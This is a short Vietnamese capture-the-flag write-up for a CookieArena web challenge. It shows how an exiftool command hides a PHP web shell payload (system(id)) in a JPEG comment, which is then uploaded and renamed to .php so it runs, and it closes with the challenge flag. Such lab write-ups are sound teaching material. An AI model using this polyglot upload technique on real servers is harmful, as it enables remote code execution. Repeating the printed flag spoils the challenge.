

# Flawed validation of file content
Link: https://battle.cookiearena.org/challenges/web/flawed-validation-of-file-content


Bài này liên quan tới file upload sử dụng fake các byte của file ảnh như trong mô tả của challenge

Kỹ thuật này có tên `Remote code execution via polyglot web shell upload`

Chúng ta sẽ sử dụng công cụ exiftool để chèn payload vào trong ảnh

```
exiftool -Comment="<?php echo 'START:'; system(id); ?>" dowload.jpg -O shell.jpg
```

Sau đó chúng ta chỉ cần upload file


Tuy nhiên nếu chỉ upload thì vẫn chưa xong


Phân tích thì chúng ta thấy nếu để thực thi được shell thì phải là file .php, vì vậy chúng ta chỉ cần thay đổi đuôi file đi là được.




Chú ý: Chúng ta hoàn toàn có thể chỉnh sửa payload của file ảnh khi chỉnh sửa request trong Repeater 

Flag: CHH{POLY6L0T_jpEG_58261a5e8445c06b9f0cffecea802495}


Nguồn tham khảo:
https://viblo.asia/p/file-upload-vulnerabilities-cac-lo-hong-upload-tep-tin-phan-3-WR5JRDndVGv